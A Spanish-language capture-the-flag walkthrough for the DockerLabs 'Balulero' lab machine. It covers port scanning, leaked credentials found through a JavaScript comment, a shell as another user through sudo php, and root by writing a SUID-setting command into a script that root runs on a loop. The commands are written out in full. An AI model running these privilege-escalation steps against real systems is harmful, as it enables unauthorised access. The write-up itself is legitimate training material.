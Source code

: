 # Balulero DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip balulero.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh balulero.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 09:51 EST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
|_  256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mi Landing Page - Ciberseguridad
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.46 seconds
```

Si entramos en la pagina vemos una pagina normal, pero si inspeccionamos el codigo podremos ver lo siguiente:

## Escalate user balu

```html
<script src="script.js"></script>
```

Si nos metemos dentro del `script.js` podremos ver lo siguiente:

```js
// Funcionalidad para ocultar/mostrar el header al hacer scroll y el secretito de la web
    console.log("Se ha prohibido el acceso al archivo .env, que es donde se guarda la password de backup, pero hay una copia llamada .env_de_baluchingon visible jiji")
    let lastScrollTop = 0;
    const header = document.querySelector('header');
    const delta = 5; // La cantidad mÃ­nima de scroll para ocultar el header
```

Vemos que nos comenta que hay una copia de seguridad en la siguiente ruta del siguiente archivo llamado `.env_de_baluchingon`.

```
URL = http://<IP>/.env_de_baluchingon
```

Si nos metemos veremos lo siguiente:

```
RECOVERY LOGIN

balu:balubalulerobalulei
```

Vemos lo que parece ser una credenciales, por lo que nos conectaremos mediante `ssh`.

### SSH

```shell
ssh balu@<IP>
```

Metemos como contraseña `balubalulerobalulei` y veremos que estamos dentro.

## Escalate user chocolate

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for balu on 594b36b05c3c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User balu may run the following commands on 594b36b05c3c:
    (chocolate) NOPASSWD: /usr/bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `chocolate`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
```

Y con esto seremos el usuario `chocolate`.

## Escalate Privileges

Si analizamos los procesos del sistema, veremos lo siguiente:

```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2616  1548 ?        Ss   14:51   0:00 /bin/sh -c service apache2 start && a2ensite 000-default.conf && service ssh start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.5 201396 22820 ?        Ss   14:51   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.2 201716 12728 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      31  0.0  0.2 201716 12656 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      33  0.0  0.2 201708 12592 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      34  0.0  0.2 201852 12720 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
root          49  0.0  0.0  12196  4148 ?        Ss   14:51   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
www-data      77  0.0  0.2 201676 11920 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      78  0.0  0.2 201676 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      80  0.0  0.2 201700 12620 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      81  0.0  0.2 201660 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      82  0.0  0.2 201660 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      83  0.0  0.2 201660 11920 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
root         202  0.0  0.1  13164  8388 ?        Ss   14:56   0:00 sshd: balu [priv]
balu         215  0.0  0.1  13404  6144 ?        S    14:56   0:00 sshd: balu@pts/0
balu         216  0.0  0.0   6000  3872 pts/0    Ss   14:56   0:00 -bash
root         258  0.0  0.1   7496  4308 pts/0    S    14:58   0:00 sudo -u chocolate php -r system('/bin/bash');
chocola+     259  0.0  0.4  67256 20356 pts/0    S    14:58   0:00 php -r system('/bin/bash');
chocola+     260  0.0  0.0   2616  1484 pts/0    S    14:58   0:00 sh -c /bin/bash
chocola+     261  0.0  0.0   6000  3772 pts/0    S    14:58   0:00 /bin/bash
root         290  0.0  0.0   2516  1276 ?        S    14:59   0:00 sleep 5
chocola+     291  0.0  0.0   7892  3520 pts/0    R+   14:59   0:00 ps -aux
```

Vemos que `root` esta ejecutando la siguiente linea:

```
 do php /opt/script.php; sleep 5; done
```

Por lo que vemos esta ejecutando un `script.php` en la carpeta `/opt`.

```shell
ls -la /opt/script.php
```

Info:

```
-rw-r--r-- 1 chocolate chocolate   59 May  7  2024 script.php
```

Vemos que podremos editarlo, por lo que haremos lo siguiente:

> script.php

```php
<?php
// Ejecuta el comando
$output = shell_exec('chmod u+s /bin/bash 2>&1');

// Muestra el resultado
if ($output === null) {
    echo "Permisos modificados correctamente.\n";
} else {
    echo "Error: " . $output . "\n";
}
?>
```

```shell
echo '<?php echo shell_exec("chmod u+s /bin/bash 2>&1") ?? "Permisos modificados correctamente.\n"; ?>' > /opt/script.php
```

Lo guardamos y esperamos unos `5` segundos para que se ejecute, cuando se ejecute veremos si ha funcionado.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que ha funcionado ya que ahora la `bash` tiene el `SUID` establecido, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
